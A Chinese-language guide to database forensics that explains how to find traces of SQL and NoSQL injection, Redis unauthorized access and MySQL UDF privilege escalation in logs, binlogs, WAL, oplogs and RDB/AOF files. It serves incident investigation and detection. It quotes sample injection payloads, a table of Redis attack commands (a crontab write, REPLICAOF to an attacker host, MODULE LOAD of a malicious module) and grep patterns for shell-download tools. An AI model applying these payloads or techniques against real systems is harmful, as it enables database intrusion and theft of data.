


## 0x01 技术基础与数据库取证概述

### 数据库类型分类与取证挑战

现代企业环境中数据库生态已从单一的关系型数据库扩展为多模态架构。不同类型的数据库在存储机制、日志体系、访问控制方面存在根本性差异，这些差异直接决定了取证方法论的选择。

| 数据库类型 | 代表产品 | 存储引擎 | 取证核心挑战 | 日志完整度 |
|-----------|---------|---------|------------|-----------|
| 关系型 (RDBMS) | MySQL, PostgreSQL, SQL Server | B+Tree, LSM-Tree | WAL/binlog 时序重建、SQL 语义分析 | 高 |
| 文档型 (Document) | MongoDB, CouchDB | WiredTiger, MMAP | JSON Schema 动态变更追踪、oplog 时间窗口限制 | 中 |
| 键值型 (Key-Value) | Redis, Memcached | Hash Table, SkipList | 无原生审计、AOF/RDB 离线分析 | 低 |
| 列式存储 (Columnar) | Cassandra, HBase, ClickHouse | SSTable, LSM-Tree | 分布式一致性与跨节点日志聚合 | 中 |
| 时序型 (Time-Series) | InfluxDB, TimescaleDB, TDengine | TSM, 分块索引 | 高频写入下的异常检测、retention policy 覆盖 | 中-高 |
| 图数据库 (Graph) | Neo4j, JanusGraph, ArangoDB | 原生图存储 | Cypher/Gremlin 注入、关系遍历攻击 | 低-中 |

关系型数据库在取证领域仍然占据核心地位，原因在于其完善的事务日志体系（ACID 保障）为事件重建提供了可靠的时间锚点。MongoDB 的 oplog.rs 具有固定容量窗口（默认为可用磁盘空间的 5%），超出后旧日志会被覆盖，这给长期取证带来时间盲区。Redis 作为内存数据库，其默认配置甚至不开启 RDB/AOF 持久化，取证数据极度依赖操作系统层面的内存转储。

### 数据库日志体系全景

数据库取证的核心依赖于日志分析。以下对主流数据库的日志类型进行全景梳理：

| 日志类型 | MySQL | PostgreSQL | MongoDB | Redis | 用途 |
|---------|-------|------------|---------|-------|------|
| General Log | general_log | log_statement=all | -- | -- | 记录所有 SQL 语句 |
| 慢查询日志 | slow_query_log | log_min_duration_statement | -- slowOpThresholdMs | -- | 性能异常检测 |
| 事务日志 | binlog (Binary Log) | WAL (pg_wal/) | oplog.rs | AOF | 数据变更追踪 |
| 审计日志 | Audit Plugin | pgaudit | -- | -- | 合规与入侵检测 |
| 错误日志 | error_log | log | mongod.log | logfile | 异常事件记录 |
| 连接日志 | general_log | pg_stat_activity | -- | CLIENT LIST | 会话行为分析 |

MySQL 的 Binary Log 是最重要的取证数据源之一。它以事件（event）为单位记录所有数据变更，支持 Statement、Row 和 Mixed 三种格式。在安全取证场景中，Row 格式的 binlog 能够精确还原每一行数据的修改前后状态，是数据泄露回溯和篡改检测的关键证据。

PostgreSQL 的 WAL (Write-Ahead Logging) 机制保证了数据持久性。WAL 文件存储在 `pg_wal/` 目录下，默认大小为 16MB 每个段。通过 `pg_waldump` 工具可以解析 WAL 文件中的每一条记录，精确重建数据库的变更历史。

### 数据库取证与传统 DBA 运维的差异

数据库取证与传统 DBA 运维在目标、方法和思维方式上存在本质差异：

| 对比维度 | DBA 运维视角 | 取证分析视角 |
|---------|------------|------------|
| 核心目标 | 保障可用性与性能 | 还原攻击时间线与证据链 |
| 日志关注点 | 慢查询优化、空间回收 | 异常语句特征提取、时间窗口分析 |
| 数据处理 | 正常增删改查 | 识别异常模式、提取攻击载荷 |
| 时效性 | 实时监控 | 事后重建（可能面临日志轮转覆盖） |
| 关注对象 | 所有合法操作 | 聚焦异常/恶意操作 |
| 输出形式 | 性能报告、容量规划 | 事件时间线、IOC 列表、证据报告 |

取证分析人员需要具备"攻击者思维"——从攻击者视角审视数据库中的每一个异常痕迹。例如，DBA 可能会将一个 `SELECT * FROM users INTO OUTFILE '/tmp/dump.csv'` 视为正常的数据导出操作，而取证分析师需要立即识别出这是数据外传的直接证据（MITRE ATT&CK: T1005 Data from Local System）。

### 数据库取证工具链

数据库取证需要一整套专业工具链来支撑分析工作：

| 工具名称 | 适用数据库 | 功能描述 | 取证场景 |
|---------|----------|---------|---------|
| mysqlbinlog | MySQL | 解析 binlog 事件 | 事务级攻击回溯 |
| Percona Toolkit (pt-query-digest) | MySQL | 慢查询分析与分类 | 注入流量识别 |
| pg_waldump | PostgreSQL | WAL 日志解析 | 逻辑复制流审计 |
| pgaudit | PostgreSQL | 操作审计扩展 | DML/DDL 变更追踪 |
| mongodump / mongoexport | MongoDB | 数据导出与 oplog 分析 | 变更流审计 |
| redis-rdb-tools | Redis | RDB 文件解析 | 持久化数据取证 |
| SQLcl / SQL Developer | Oracle/MySQL/PG | 取证级查询分析 | 复杂关联查询 |
| Volatility (memlite) | 所有数据库 | 内存取证中提取数据库缓存 | 无持久化日志场景 |

```bash
mysqlbinlog --base64-output=decode-rows -v binlog.000042 > binlog_decoded.sql
```

```bash
pg_waldump -p /var/lib/postgresql/14/main/pg_wal/ 000000010000000000000001
```

```bash
redis-rdb-tools --command memory dump.rdb --type zset --output csv > rdb_analysis.csv
```

```bash
mongodump --oplog --out /evidence/mongodb_backup/ --oplogLimit "1688534400:1"
```

```bash
pt-query-digest /var/log/mysql/slow.log --limit 20 --output ascii
```

```bash
mysqlbinlog --start-datetime="2026-06-01 00:00:00" --stop-datetime="2026-06-02 00:00:00" binlog.000042
```

---

## 0x02 MySQL 注入痕迹取证

### General Log 取证

MySQL General Log 是最详尽的审计日志，记录了客户端发送到服务器的每一条 SQL 语句。在取证场景中，General Log 是提取注入载荷的第一手数据源。

| 取证要素 | 分析方法 | 示例 |
|---------|---------|------|
| 注入时间点 | 按时间排序过滤 | `SET timestamp=1688534400;` |
| 注入源 IP | 提取 Thread ID 关联连接 | `CONNECT` 记录中的 host 信息 |
| SQL 语句特征 | 正则匹配注入关键词 | `UNION\|SELECT\|SLEEP\|BENCHMARK\|LOAD_FILE` |
| 数据库用户 | 提取连接认证信息 | ` Connect user@host on` |

启用 General Log 进行取证采集：

```sql
SET GLOBAL general_log = 'ON';
SET GLOBAL log_output = 'TABLE';
SELECT * FROM mysql.general_log ORDER BY event_time DESC LIMIT 100;
```

General Log 表中的关键字段解析：

| 字段名 | 类型 | 取证意义 |
|-------|------|---------|
| event_time | TIMESTAMP | 事件精确时间戳 |
| user_host | TEXT | 连接用户名和来源 IP |
| thread_id | BIGINT | 连接线程标识，用于关联会话 |
| server_id | BIGINT | MySQL 实例标识 |
| command_type | VARCHAR | CONNECT/Query/Execute 等 |
| argument | MEDIUMTEXT | 完整 SQL 语句 |

典型的 SQL 注入特征在 General Log 中的表现：

```sql
SELECT * FROM users WHERE id=1 AND 1=1
SELECT * FROM users WHERE id=1 AND 1=2
SELECT * FROM users WHERE id=1 UNION SELECT username,password FROM admin--
SELECT * FROM users WHERE id=1 AND SLEEP(5)
SELECT * FROM users WHERE id=1 AND BENCHMARK(10000000,SHA1('test'))
SELECT * FROM users WHERE id=1 AND (SELECT COUNT(*) FROM information_schema.tables)>0
```

使用正则提取注入特征：

```bash
grep -iE "(UNION|SLEEP|BENCHMARK|LOAD_FILE|INTO\s+(OUT|DUMP)FILE|INFORMATION_SCHEMA|MYSQL\.USER)" /var/log/mysql/general.log
```

```bash
awk '/CONNECT/{conn=$0} /UNION|SLEEP|BENCHMARK/{print conn"\n"$0"\n---"}' /var/log/mysql/general.log
```

### Slow Query Log 分析

基于时间的盲注（Time-based Blind SQL Injection）是攻击者最常用的注入技术之一。MySQL Slow Query Log 会捕获执行时间超过阈值的查询，这恰好为检测 SLEEP/BENCHMARK 类注入提供了天然的检测窗口。

配置 Slow Query Log 用于取证分析：

```sql
SET GLOBAL slow_query_log = 'ON';
SET GLOBAL slow_query_log_file = '/var/log/mysql/slow_queries.log';
SET GLOBAL long_query_time = 0;
SET GLOBAL log_queries_not_using_indexes = 'ON';
```

基于时间盲注在 Slow Query Log 中的特征：

```bash
grep -E "SLEEP\(|BENCHMARK\(|SELECT.*WHERE.*AND.*SLEEP" /var/log/mysql/slow_queries.log
```

| 盲注类型 | Log 特征 | 查询时间模式 | 检测正则 |
|---------|---------|------------|---------|
| SLEEP(n) | 执行时间 ≈ n 秒 | 整数秒级跳跃 | `SLEEP\(\d+\)` |
| BENCHMARK(n,...) | 执行时间与 n 成正比 | 非整数但可重复 | `BENCHMARK\(\d+,` |
| heavy computation | CPU 密集型 | 大量子查询 | `SELECT.*COUNT\(\*\).*FROM.*WHERE` |
| conditional delay | 条件分支延迟 | 交替出现长短查询 | `IF\(.*SLEEP` |

使用 `pt-query-digest` 进行慢查询深度分析：

```bash
pt-query-digest /var/log/mysql/slow_queries.log --limit 50 --report-format profile --order by Query_time:sum
```

```bash
pt-query-digest /var/log/mysql/slow_queries.log --filter '$event->{fingerprint} =~ /SLEEP|BENCHMARK/' --output report
```

### Binary Log (binlog) 取证

Binary Log 记录了所有修改数据库数据的语句，是 MySQL 取证中最重要的数据源。通过 binlog 可以精确重建攻击者的每一步操作。

binlog 事件结构分析：

| 事件类型 | 事件名称 | 取证意义 |
|---------|---------|---------|
| FORMAT_DESCRIPTION_EVENT | 格式描述 | MySQL 版本与 binlog 格式 |
| QUERY_EVENT | 查询语句 | DDL 操作（CREATE/ALTER/DROP） |
| TABLE_MAP_EVENT | 表映射 | 被操作的表结构 |
| WRITE_ROWS_EVENT | 插入行 | 新增数据（可能含后门账户） |
| UPDATE_ROWS_EVENT | 更新行 | 数据篡改痕迹 |
| DELETE_ROWS_EVENT | 删除行 | 数据破坏或清理痕迹 |
| ROTATE_EVENT | 日志轮转 | binlog 文件切换标记 |

查看 binlog 基本信息：

```bash
mysqlbinlog --base64-output=decode-rows -v binlog.000042 | head -50
```

```bash
mysqlbinlog --no-defaults -v binlog.000042 | grep -iE "CREATE|ALTER|DROP|GRANT|INSERT|UPDATE|DELETE" | head -100
```

通过 binlog 还原数据变更时间线：

```bash
mysqlbinlog --start-datetime="2026-06-01 10:00:00" --stop-datetime="2026-06-01 12:00:00" --base64-output=decode-rows -v binlog.000042
```

使用 `binlog2sql` 工具进行人性化解读：

```bash
python binlog2sql.py --host=127.0.0.1 --port=3306 --user=root --password=xxx --start-file='binlog.000042' --start-datetime='2026-06-01 10:00:00' --stop-datetime='2026-06-01 12:00:00'
```

提取 binlog 中的可疑 DDL 语句：

```bash
mysqlbinlog -v binlog.000042 | awk '/^[0-9]{6}.*Query/{ts=$1; stmt=$0} /CREATE\s+(FUNCTION|PROCEDURE|TRIGGER|EVENT)|GRANT\s+ALL|DROP\s+(USER|TABLE)/{print ts; print stmt; print $0; print "---"}'
```

### General Log 与 binlog 交叉关联分析

交叉关联是数据库取证中最具价值的分析方法。General Log 提供完整的 SQL 语句原文（包括攻击载荷），binlog 提供数据变更的精确内容。将两者关联可以重建完整的攻击链。

| 关联维度 | General Log 提供 | binlog 提供 | 关联方法 |
|---------|----------------|-------------|---------|
| 注入时间 | event_time | timestamp | 时间戳对齐 |
| SQL 语句 | argument (完整原文) | QUERY_EVENT (可能截断) | statement 匹配 |
| 数据变更 | 不可见（查询结果） | WRITE/UPDATE/DELETE_ROWS | 事务 ID 关联 |
| 用户身份 | user_host | 无 | Thread ID 关联 |

```bash
mysqlbinlog -v binlog.000042 | awk '/QUERY_EVENT/{print $0}' | grep -i "INSERT\|UPDATE\|DELETE" > binlog_writes.txt
```

```bash
awk '/CONNECT/{user=$4; host=$6} /Query/{print user"@"host": "$0}' /var/log/mysql/general.log > general_with_user.txt
```

### MySQL 审计日志

MySQL Enterprise Audit Plugin 和社区版 `server_audit` 插件提供更结构化的审计日志：

```sql
INSTALL PLUGIN server_audit SONAME 'server_audit.so';
SET GLOBAL server_audit_logging = 'ON';
SET GLOBAL server_audit_events = 'CONNECT,QUERY_DDL,QUERY_DML,QUERY_DCL';
SET GLOBAL server_audit_file_path = '/var/log/mysql/audit.log';
```

| 审计事件类型 | 记录内容 | 安全价值 |
|------------|---------|---------|
| CONNECT | 连接建立/断开 | 会话追踪、异常 IP 检测 |
| QUERY_DDL | DDL 语句 | 后门创建检测 |
| QUERY_DML | DML 语句 | 数据篡改/泄露检测 |
| QUERY_DCL | DCL 语句（GRANT/CREATE USER） | 权限提升检测 |

```bash
grep -E "CONNECT.*FAILED|QUERY_DCL.*GRANT|QUERY_DDL.*TRIGGER|QUERY_DDL.*EVENT" /var/log/mysql/audit.log
```

---

## 0x03 PostgreSQL 取证分析

### pg_stat_statements 取证

PostgreSQL 的 `pg_stat_statements` 扩展是性能监控和安全取证的重要工具。它以 SQL 模板形式统计查询执行信息，能够快速定位异常查询行为。

启用 `pg_stat_statements`：

```sql
CREATE EXTENSION pg_stat_statements;
SELECT pg_stat_statements_reset();
```

```bash
echo "shared_preload_libraries = 'pg_stat_statements'" >> /etc/postgresql/14/main/postgresql.conf
echo "pg_stat_statements.track = all" >> /etc/postgresql/14/main/postgresql.conf
systemctl restart postgresql
```

`pg_stat_statements` 视图关键字段：

| 字段名 | 类型 | 取证意义 |
|-------|------|---------|
| userid | OID | 执行查询的用户 |
| dbid | OID | 目标数据库 |
| queryid | BIGINT | 查询哈希标识 |
| query | TEXT | SQL 模板（参数已参数化） |
| calls | BIGINT | 执行次数（异常高频=可疑） |
| total_exec_time | DOUBLE | 总执行时间（盲注检测） |
| rows | BIGINT | 返回行数（数据量估算） |

检测异常查询行为：

```sql
SELECT userid, dbid, LEFT(query, 120) AS query_preview, calls, round(total_exec_time::numeric, 2) AS total_time_ms, rows
FROM pg_stat_statements
WHERE query ILIKE '%UNION%SELECT%'
   OR query ILIKE '%SLEEP(%'
   OR query ILIKE '%pg_sleep(%'
   OR query ILIKE '%BENCHMARK(%'
   OR query ILIKE '%LOAD_FILE(%'
   OR query ILIKE '%COPY%FROM%'
ORDER BY calls DESC
LIMIT 50;
```

```sql
SELECT query, calls, rows, total_exec_time
FROM pg_stat_statements
WHERE calls > 10000
   AND rows > 0
ORDER BY total_exec_time DESC
LIMIT 20;
```

使用 `pg_stat_statements` 追踪高频数据导出：

```sql
SELECT query, calls, rows, round(rows::numeric / greatest(calls, 1), 0) AS avg_rows_per_call
FROM pg_stat_statements
WHERE query ILIKE '%SELECT%FROM%'
  AND rows > 1000
ORDER BY rows DESC
LIMIT 30;
```

### WAL (Write-Ahead Log) 分析

PostgreSQL WAL 日志记录了所有数据库状态变更，是事件重建的核心数据源。WAL 文件位于 `pg_wal/` 目录，默认段大小为 16MB。

| WAL 记录类型 | 代码标识 | 取证意义 |
|------------|---------|---------|
| XLOG_DBASE_CREATE | XLOG_DBASE_CREATE_DB | 新数据库创建 |
| XLOG_DBASE_DROP | XLOG_DBASE_DROP_DB | 数据库删除 |
| XLOG_SMGR_CREATE | XLOG_SMGR_CREATE | 新文件创建（表空间） |
| XLOG_SMGR_TRUNCATE | XLOG_SMGR_TRUNCATE | 文件截断（数据清空） |
| INSERT | heap insert | 数据插入 |
| UPDATE | heap update | 数据更新 |
| DELETE | heap delete | 数据删除 |
| HOT_UPDATE | heap hot update | 热更新 |
| COMMAND_ID | commandId | 命令顺序追踪 |

使用 `pg_waldump` 解析 WAL 文件：

```bash
pg_waldump /var/lib/postgresql/14/main/pg_wal/000000010000000000000001 > wal_decoded.txt
```

```bash
pg_waldump --stats /var/lib/postgresql/14/main/pg_wal/000000010000000000000001
```

筛选可疑操作：

```bash
pg_waldump /var/lib/postgresql/14/main/pg_wal/000000010000000000000001 | grep -E "CREATE|DROP|TRUNCATE|GRANT|REVOKE" | head -50
```

```bash
pg_waldump -p /var/lib/postgresql/14/main/pg_wal/ 000000010000000000000001 | awk '/heap_insert|heap_update|heap_delete/{print}' | head -100
```

查看 WAL 配置：

```sql
SHOW wal_level;
SHOW max_wal_senders;
SHOW archive_mode;
SHOW archive_command;
```

| WAL 级别 | 包含信息 | 取证能力 |
|---------|---------|---------|
| minimal | 仅基础写入 | 低（无 DDL 记录） |
| replica | 包含 DDL/DML | 高（支持流复制审计） |
| logical | 包含逻辑变更 | 最高（支持逻辑解码） |

### pgaudit 扩展审计

`pgaudit` 是 PostgreSQL 最强大的审计扩展，支持细粒度的 DML/DDL/DCL 审计：

```sql
CREATE EXTENSION pgaudit;
```

```bash
echo "shared_preload_libraries = 'pgaudit'" >> /etc/postgresql/14/main/postgresql.conf
echo "pgaudit.log = 'ddl, role, write'" >> /etc/postgresql/14/main/postgresql.conf
echo "pgaudit.log_catalog = on" >> /etc/postgresql/14/main/postgresql.conf
systemctl restart postgresql
```

`pgaudit.log` 参数详解：

| 参数值 | 审计范围 | 典型使用场景 |
|-------|---------|------------|
| read | SELECT, COPY FROM | 数据泄露检测 |
| write | INSERT, UPDATE, DELETE, TRUNCATE, COPY TO | 数据篡改检测 |
| function | 函数调用 | 存储过程滥用检测 |
| role | GRANT, REVOKE, CREATE/ALTER/DROP ROLE | 权限提升检测 |
| ddl | CREATE, ALTER, DROP（所有对象） | 后门对象检测 |
| misc | DISCARD, FETCH, CHECKPOINT | 异常操作检测 |
| all | 所有操作 | 全量审计 |

```sql
ALTER USER attacker_user SET pgaudit.log = 'all';
```

```sql
SELECT * FROM pg_catalog.pg_audit_log ORDER BY event_time DESC LIMIT 100;
```

### pg_hba.conf 配置审计与异常连接检测

`pg_hba.conf` 是 PostgreSQL 的客户端认证配置文件，控制哪些客户端可以连接、使用什么认证方式。攻击者入侵后可能会修改此文件以维持访问权限。

```bash
cat /etc/postgresql/14/main/pg_hba.conf | grep -v '^#' | grep -v '^$'
```

| 认证类型 | 安全等级 | 取证关注点 |
|---------|---------|-----------|
| trust | 极低（无需密码） | 后门配置 |
| password | 低（明文传输） | 中间人风险 |
| md5 | 中 | 弱口令风险 |
| scram-sha-256 | 高 | 当前推荐 |
| cert | 最高 | 双向认证 |
| pam/ldap | 取决于后端 | 后端配置被篡改风险 |

```bash
diff <(cat /etc/postgresql/14/main/pg_hba.conf.bak) <(cat /etc/postgresql/14/main/pg_hba.conf) | grep -E "^[<>]"
```

```bash
grep -n "trust\|0.0.0.0/0\|::/0" /etc/postgresql/14/main/pg_hba.conf
```

```sql
SELECT client_addr, usename, state, query_start, query
FROM pg_stat_activity
WHERE state != 'idle'
ORDER BY query_start DESC;
```

### PostgreSQL 日志与操作系统日志交叉分析

将 PostgreSQL 日志与 OS 级日志（auth.log、syslog）进行时间轴对齐是发现攻击链的重要手段：

```bash
grep "postgresql" /var/log/auth.log | grep -i "connection\|authentication" | tail -50
```

```bash
journalctl -u postgresql --since "2026-06-01 00:00:00" --until "2026-06-02 00:00:00" | grep -iE "connection|authentication|error|fatal"
```

```bash
cat /var/log/postgresql/postgresql-14-main.log | awk '/LOG.*connection authorized/{print}' | tail -50
```

关联分析脚本：

```bash
paste <(grep "LOG.*connection" /var/log/postgresql/postgresql-14-main.log | awk '{print $1, $2}') <(grep "postgresql" /var/log/auth.log | awk '{print $1, $2, $3, $9}') | head -30
```

---

## 0x04 NoSQL 数据库取证

### MongoDB 注入检测

MongoDB 虽然不使用传统 SQL，但其查询操作符（如 `$where`、`$gt`、`$ne`）在构造不当的应用层存在被滥用的风险。MongoDB 注入通常通过操纵 JSON 查询对象实现。

常见 MongoDB 注入操作符滥用：

| 操作符 | 正常用途 | 注入滥用场景 | 取证特征 |
|-------|---------|------------|---------|
| `$where` | JavaScript 表达式 | 任意 JS 代码执行 | 日志中出现 function(){} |
| `$gt` | 大于比较 | 绕过认证（password > ""） | 查询条件异常 |
| `$ne` | 不等于比较 | 绕过精确匹配 | 密码字段使用 $ne |
| `$regex` | 正则匹配 | 逐字符暴力破解 | 频繁正则查询 |
| `$exists` | 字段存在性 | 字段枚举 | 大量 $exists 查询 |
| `$in` | 范围匹配 | 批量数据探测 | IN 列表异常大 |

MongoDB 查询日志分析（启用 profiling）：

```javascript
db.setProfilingLevel(2, { slowms: 100 })
db.system.profile.find({ "op": "query", "ns": "app.users" }).sort({ ts: -1 }).limit(20)
```

```javascript
db.system.profile.find({ "command.filter.$where": { $exists: true } }).sort({ ts: -1 })
```

```javascript
db.system.profile.find({ "command.filter.password": { $ne: "" } }).sort({ ts: -1 })
```

分析 `$where` 注入痕迹：

```javascript
db.system.profile.find({ "command.filter.$where": /function\s*\(\)/ }).forEach(function(doc) {
    printjson({
        timestamp: doc.ts,
        operation: doc.op,
        namespace: doc.ns,
        query: doc.command.filter,
        millis: doc.millis,
        user: doc.user
    });
});
```

### MongoDB 日志分析

MongoDB 的日志系统提供了丰富的取证信息，特别是 `mongod.log` 和 `oplog.rs`。

`mongod.log` 关键日志模式：

| 日志关键词 | 含义 | 取证意义 |
|-----------|------|---------|
| "Authentication succeeded" | 认证成功 | 正常登录 |
| "Authentication failed" | 认证失败 | 暴力破解尝试 |
| "Client connected" | 客户端连接 | 来源 IP 追踪 |
| "Client disconnected" | 客户端断开 | 会话持续时间 |
| "command" | 执行的命令 | 操作审计 |
| "Slow query" | 慢查询 | 盲注/大查询检测 |

```bash
grep -iE "authentication failed|command.*\$where|slow query|unauthorized" /var/log/mongodb/mongod.log | tail -50
```

oplog.rs 变更流审计：

```javascript
use local
db.oplog.rs.find({ "op": "i", "ns": "admin.system.users" }).sort({ ts: -1 })
db.oplog.rs.find({ "op": "i", "ns": { $regex: /^app\./ } }).sort({ ts: -1 })
```

```javascript
db.oplog.rs.find({
    "ts": { $gt: Timestamp(1688534400, 1) },
    $or: [
        { "op": "i", "ns": /system\.users/ },
        { "o createUser": { $exists: true } },
        { "o.grantRole": { $exists: true } }
    ]
}).sort({ ts: -1 }).limit(100)
```

| oplog 操作码 | 含义 | 安全关注度 |
|-------------|------|-----------|
| "i" (insert) | 插入文档 | 高（新用户/新数据） |
| "u" (update) | 更新文档 | 高（权限/密码修改） |
| "d" (delete) | 删除文档 | 中（数据破坏） |
| "c" (command) | 数据库命令 | 高（DDL 操作） |
| "n" (noop) | 空操作 | 低 |

### Redis 未授权访问取证

Redis 默认配置无需密码认证，暴露在网络中的 Redis 实例是攻击者的高价值目标（MITRE ATT&CK: T1190 Exploit Public-Facing Application）。

Redis 攻击痕迹检测要点：

| 攻击手法 | Redis 命令 | 取证检测方法 |
|---------|-----------|------------|
| 写入 WebShell | `SET payload "<%...%>"` | RDB/AOF 中的异常键值 |
| 写入 SSH 公钥 | `SET ssh_key "ssh-rsa ..."` | 键名包含 ssh/authorized |
| 写入 Crontab | `SET cron "\n*/1 * * * * ..."` | 键名包含 cron/schedule |
| 反弹 Shell | `CONFIG SET dir /var/spool/cron` | AOF 中的 CONFIG SET 记录 |
| 主从复制攻击 | `REPLICAOF attacker_ip port` | 异常的 replication 配置 |
| 模块加载 | `MODULE LOAD /tmp/evil.so` | 模块加载日志 |

```bash
redis-cli --no-auth-warning -h 127.0.0.1 -a '' INFO keyspace
```

```bash
redis-cli --no-auth-warning -h 127.0.0.1 -a '' KEYS '*' | head -100
```

```bash
redis-cli --no-auth-warning -h 127.0.0.1 -a '' CONFIG GET dir
redis-cli --no-auth-warning -h 127.0.0.1 -a '' CONFIG GET dbfilename
```

```bash
redis-cli --no-auth-warning -h 127.0.0.1 -a '' CONFIG GET requirepass
redis-cli --no-auth-warning -h 127.0.0.1 -a '' CONFIG GET bind
redis-cli --no-auth-warning -h 127.0.0.1 -a '' CONFIG GET protected-mode
```

```bash
redis-cli -h 127.0.0.1 -a '' INFO replication
```

### Redis AOF/RDB 文件分析

Redis 的 AOF（Append Only File）和 RDB（Redis Database）文件是离线取证的重要数据源：

```bash
redis-rdb-tools dump.rdb --type string --output csv | grep -iE "ssh|cron|shell|webshell|key"
```

```bash
strings dump.rdb | grep -iE "ssh-rsa|authorized_keys|/bin/sh|/bin/bash|curl|wget|python|perl"
```

```bash
cat appendonly.aof | grep -E "SET|CONFIG SET|MODULE LOAD|REPLICAOF" | head -100
```

```bash
redis-rdb-tools dump.rdb --type string --keys ".*" --output csv > all_keys.csv
```

```bash
awk '/SET/{key=$2; val=substr($0, index($0,$3)); if(length(val)>100) print key": "substr(val,1,200)"..."}' appendonly.aof | head -30
```

### CouchDB/Elasticsearch 攻击痕迹

CouchDB 和 Elasticsearch 作为 RESTful 数据库，其攻击面主要在 HTTP API 层：

```bash
curl -s http://127.0.0.1:5984/_all_dbs | python3 -m json.tool
```

```bash
curl -s http://127.0.0.1:5984/_users/_all_docs?include_docs=true | python3 -m json.tool
```

```bash
curl -s http://127.0.0.1:9200/_cat/indices?v
```

```bash
curl -s http://127.0.0.1:9200/_nodes/hot_threads | head -30
```

CouchDB 特有攻击面——配置修改 API：

```bash
curl -X PUT http://127.0.0.1:5984/_users -d '{"_id":"_design/users","views":{"all":{"map":"function(doc){emit(doc._id,doc)}"}}}'
```

| 数据库 | 默认端口 | 常见攻击向量 | 取证关键 |
|-------|---------|------------|---------|
| CouchDB | 5984 | REST API 未授权、设计文档注入 | _users 库变更 |
| Elasticsearch | 9200 | 索引未授权访问、Groovy 脚本注入 | _search 查询日志 |
| CouchDB | 5984 | CVE-2017-12635 JSON 解析绕过 | 用户文档异常修改 |

### Cassandra/Neo4j 攻击特征

```bash
cqlsh -e "SELECT * FROM system_auth.role_permissions WHERE role='attacker_role';"
```

```bash
cypher-shell -u neo4j -p password "MATCH (n:User) WHERE n.admin=true RETURN n"
```

```bash
cqlsh -e "DESCRIBE KEYSPACES;"
```

```bash
cqlsh -e "SELECT role, can_login, is_superuser FROM system_auth.roles;"
```

CQL 注入与 Cypher 注入特征对比：

| 特征 | CQL 注入 | Cypher 注入 |
|------|---------|------------|
| 查询语言 | 类 SQL | 图模式匹配 |
| 经典注入点 | WHERE 子句 | MATCH 子句 |
| 特殊函数 | token(), timeuuid() | labels(), keys() |
| 危险操作 | TRUNCATE, DROP | DETACH DELETE, CREATE |
| 数据提取 | SELECT + LIMIT | MATCH + RETURN |

---

## 0x05 数据库持久化与提权取证

### MySQL UDF 提权取证

User Defined Function (UDF) 提权是攻击者获取操作系统级别执行权限的最常用技术之一（MITRE ATT&CK: T1505.003 Web Shell）。攻击者通过将编译好的 `.so`（Linux）或 `.dll`（Windows）文件放置到 MySQL 的插件目录，然后创建自定义函数实现命令执行。

UDF 提权的取证检测清单：

| 检测项 | 检测命令 | 预期结果 |
|-------|---------|---------|
| 异常 .so 文件 | `ls -la /usr/lib/mysql/plugin/` | 仅应有官方插件 |
| mysql.func 表 | `SELECT * FROM mysql.func;` | 正常应为空 |
| 异常 CREATE FUNCTION | binlog 中搜索 | 不应有非标准函数创建 |
| /tmp 目录可疑文件 | `ls -la /tmp/*.so` | 不应有 .so 文件 |
| MySQL 进程文件操作 | `lsof -p $(pgrep mysql)` | 不应访问 /tmp |

```sql
SELECT * FROM mysql.func;
```

```sql
SELECT name, type, ret, dl, sql_data_access FROM mysql.func;
```

```bash
find /usr/lib/mysql/ /usr/lib64/mysql/ /usr/local/lib/mysql/ -name "*.so" -newer /usr/sbin/mysqld -ls
```

```bash
ls -la /var/lib/mysql/lib/plugin/ 2>/dev/null || ls -la /usr/lib/mysql/plugin/ 2>/dev/null
```

```bash
strings /usr/lib/mysql/plugin/udf_evil.so | grep -iE "system|exec|cmd|bash|shell"
```

在 binlog 中检测 UDF 创建痕迹：

```bash
mysqlbinlog -v binlog.000042 | grep -iE "CREATE\s+FUNCTION|CREATE\s+AGGREGATE\s+FUNCTION"
```

```bash
mysqlbinlog --base64-output=decode-rows -v binlog.000042 | grep -iE "mysql\.func|plugin"
```

### 存储过程滥用

攻击者可能通过创建恶意存储过程来实现持久化和提权：

| 数据库 | 危险特性 | 攻击向量 | 取证检测 |
|-------|---------|---------|---------|
| MySQL | CREATE FUNCTION (soname) | UDF 提权 | mysql.func 表 |
| PostgreSQL | CREATE FUNCTION (C) | C 语言函数提权 | pg_proc 异常条目 |
| SQL Server | xp_cmdshell | 命令执行 | sys.configurations |
